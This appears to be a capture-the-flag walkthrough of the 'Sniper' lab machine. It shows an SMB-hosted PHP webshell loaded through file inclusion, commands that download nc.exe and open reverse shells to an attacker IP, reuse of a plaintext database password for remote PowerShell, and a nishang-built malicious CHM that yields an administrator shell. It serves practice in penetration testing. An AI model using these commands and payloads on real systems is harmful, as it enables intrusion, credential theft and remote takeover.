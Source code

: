 # Sniper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.229.6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 09:19 EDT
Nmap scan report for 10.129.229.6
Host is up (0.011s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49667/tcp open  unknown
```

### Sniper Co

Port 80 is hosting a corporate website:

<figure><img src="../../../.gitbook/assets/image (178) (2).png" alt=""><figcaption></figcaption></figure>

I clicked all the services, and found that Our Services works and brings us to `/blog/index.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (182) (3).png" alt=""><figcaption></figcaption></figure>

When changing languages, I noticed this:

<figure><img src="../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to LFI, and since this is a Windows machine, we can try to use `\\` to access our machien via SMB. I hosted a `cmd.php` webshell using `smbserver.py`. Then, we can try to access it via `curl`.

```bash
curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&cmd=whoami'
<TRUNCATED>
nt authority\iusr
```

This works! We can now get a reverse shell using `nc.exe`.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=powershell+-c+wget+10.10.14.13/nc64.exe+-Outfile+C:\windows\tasks\nc.exe'

<strong>curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=C:\windows\tasks\nc.exe+-e+cmd.exe+10.10.14.13+4444'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Chris Credentials

Within the files for the website, we can see a `user` directory:

```
C:\inetpub\wwwroot>dir
Volume in drive C has no label.
Volume Serial Number is AE98-73A8

Directory of C:\inetpub\wwwroot

04/11/2019  10:51 AM    <DIR>          .
04/11/2019  10:51 AM    <DIR>          ..
04/11/2019  05:23 AM    <DIR>          blog
04/11/2019  05:23 AM    <DIR>          css
04/11/2019  05:23 AM    <DIR>          images
04/11/2019  05:22 PM             2,635 index.php
04/11/2019  05:23 AM    <DIR>          js
04/11/2019  05:23 AM    <DIR>          scss
10/01/2019  08:44 AM    <DIR>          user
               1 File(s)          2,635 bytes
               8 Dir(s)   2,415,136,768 bytes free
```

Within that, there is a `db.php` file that contains credentials:

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

This might be the credentials for the user, `Chris`. When we check the user's permissions, we se that he's part of the Remote Management Use group, meaning that we can use this credentials using Remote Powershell to get RCE.

```
C:\inetpub\wwwroot\user>net user chris
User name                    Chris
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/11/2019 6:53:37 AM
Password expires             Never
Password changeable      4/11/2019 6:53:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   8/15/2019 12:23:43 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

This can be done like so:

```powershell
$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("sniper\chris", $pass)
Invoke-Command -Computer localhost -ScriptBlock { whoami } -Credential $cred
# for shell
Invoke-Command -Computer localhost -ScriptBlock { \\10.10.14.13\share\nc64.exe -e cmd.exe 10.10.14.13 4444 } -Credential $cred
```

<figure><img src="../../../.gitbook/assets/image (149) (5).png" alt=""><figcaption></figcaption></figure>

Now, we can execute `nc.exe` file to get another reverse shell and grab the user file.

<figure><img src="../../../.gitbook/assets/image (160) (4).png" alt=""><figcaption></figcaption></figure>

### CHM

As the user, we can view `C:\Docs`. Inside, there are some files, including a note.

{% code overflow="wrap" %}
```
C:\Docs>type note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
{% endcode %}

Within the user's Downloads file, we find a `chm` file.

```
C:\Users\Chris\Downloads>ir
dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Chris\Downloads

04/11/2019  08:36 AM    <DIR>          .
04/11/2019  08:36 AM    <DIR>          ..
04/11/2019  08:36 AM            10,462 instructions.chm
               1 File(s)         10,462 bytes
               2 Dir(s)   2,421,116,928 bytes free
```

We can transfer this back to our machine via SMB for further analysis. This is a Windows file, so we can open it on our Windows machine.

<figure><img src="../../../.gitbook/assets/image (68) (4) (1).png" alt=""><figcaption></figcaption></figure>

Interesting. CHM is exploitable by us, and we can use `nishang` to do so. All we need to do is use `Out-CHM.ps1` to create a CHM file with a payload.

```powershell
# on Windows
Out-CHM -Payload "\\10.10.14.13\share\nc.exe -e cmd.exe 10.10.14.13 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

This would generate another CHM file, of which we just need to download it to the machine and rename it as `instructions.chm` and place it within `C:\Docs`. Then, we just need to wait a bit and our listener port will catch a reverse shell as the administrator.&#x20;

```
$ nc -lnvp 4444                        
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.229.6] 49675
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
sniper\administrator
```
